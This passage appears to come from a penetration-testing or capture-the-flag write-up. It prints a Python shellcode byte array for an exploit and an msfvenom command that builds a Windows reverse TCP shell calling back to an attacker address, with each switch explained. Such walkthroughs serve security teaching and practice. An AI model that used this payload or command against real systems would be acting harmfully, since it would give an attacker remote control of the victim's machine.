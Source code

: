 ```python
shellcode=(
"\x31\xc9\x83\xe9\xaf\xe8\xff\xff\xff\xff\xc0\x5e\x81\x76\x0e"
"\x42\xf6\xc3\xef\x83\xee\xfc\xe2\xf4\xbe\x1e\x41\xef\x42\xf6"
"\xa3\x66\xa7\xc7\x03\x8b\xc9\xa6\xf3\x64\x10\xfa\x48\xbd\x56"
"\x7d\xb1\xc7\x4d\x41\x89\xc9\x73\x09\x6f\xd3\x23\x8a\xc1\xc3"
"\x62\x37\x0c\xe2\x43\x31\x21\x1d\x10\xa1\x48\xbd\x52\x7d\x89"
"\xd3\xc9\xba\xd2\x97\xa1\xbe\xc2\x3e\x13\x7d\x9a\xcf\x43\x25"
"\x48\xa6\x5a\x15\xf9\xa6\xc9\xc2\x48\xee\x94\xc7\x3c\x43\x83"
"\x39\xce\xee\x85\xce\x23\x9a\xb4\xf5\xbe\x17\x79\x8b\xe7\x9a"
"\xa6\xae\x48\xb7\x66\xf7\x10\x89\xc9\xfa\x88\x64\x1a\xea\xc2"
"\x3c\xc9\xf2\x48\xee\x92\x7f\x87\xcb\x66\xad\x98\x8e\x1b\xac"
"\x92\x10\xa2\xa9\x9c\xb5\xc9\xe4\x28\x62\x1f\x9e\xf0\xdd\x42"
"\xf6\xab\x98\x31\xc4\x9c\xbb\x2a\xba\xb4\xc9\x45\x09\x16\x57"
"\xd2\xf7\xc3\xef\x6b\x32\x97\xbf\x2a\xdf\x43\x84\x42\x09\x16"
"\xbf\x12\xa6\x93\xaf\x12\xb6\x93\x87\xa8\xf9\x1c\x0f\xbd\x23"
"\x54\x85\x47\x9e\xc9\xe4\x42\x6b\xab\xed\x42\x04\xf3\x66\xa4"
"\x9c\xd3\xb9\x15\x9e\x5a\x4a\x36\x97\x3c\x3a\xc7\x36\xb7\xe3"
"\xbd\xb8\xcb\x9a\xae\x9e\x33\x5a\xe0\xa0\x3c\x3a\x2a\x95\xae"
"\x8b\x42\x7f\x20\xb8\x15\xa1\xf2\x19\x28\xe4\x9a\xb9\xa0\x0b"
"\xa5\x28\x06\xd2\xff\xee\x43\x7b\x87\xcb\x52\x30\xc3\xab\x16"
"\xa6\x95\xb9\x14\xb0\x95\xa1\x14\xa0\x90\xb9\x2a\x8f\x0f\xd0"
"\xc4\x09\x16\x66\xa2\xb8\x95\xa9\xbd\xc6\xab\xe7\xc5\xeb\xa3"
"\x10\x97\x4d\x23\xf2\x68\xfc\xab\x49\xd7\x4b\x5e\x10\x97\xca"
"\xc5\x93\x48\x76\x38\x0f\x37\xf3\x78\xa8\x51\x84\xac\x85\x42"
"\xa5\x3c\x3a"
)
# ------------------------------------------------------------------------
```

#### Generating shellcode

We can generate our own shellcode using msfvenom.  Here is the command I used and an explanation of the switches I enabled:

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.33 LPORT=4433 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f python -a x86 --platform windows -v shellcode
```

 * `-p windows/shell_reverse_tcp`	Creates a reverse TCP stream from a Windows host.
 * `LHOST=10.10.14.33`	Sets the IP for the reverse shell to connect to; this is almost always an attacker-controlled machine.
 * `LPORT=4433`	Sets the port that the reverse shell attempts to connect to.
 * `EXITFUNC=thread`	Ensures that the exploit won't quit out after the shellcode executes.
 * `-b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40"`	Sets the bad characters; msfvenom will avoid using these in the shellcode. Null bytes '\x00' are a common setting.
 * `-f python`	Output format, set to Python since the script is in Python. The default is C, but either can work with a little editing.
 * `-a x86`	The architecture of the target, most likely x86, 32 bit.
 * `--platform windows`	Sets the target platform, in this case Windows. Msfvenom is smart enough to infer the target platform without this setting based on the module reverse shell we selected earlier, but explicit settings can't hurt.
 * `-v shellcode`	Changes the name of the shellcode variable from `buf` to `shellcode`, which is the one used in the exploit.
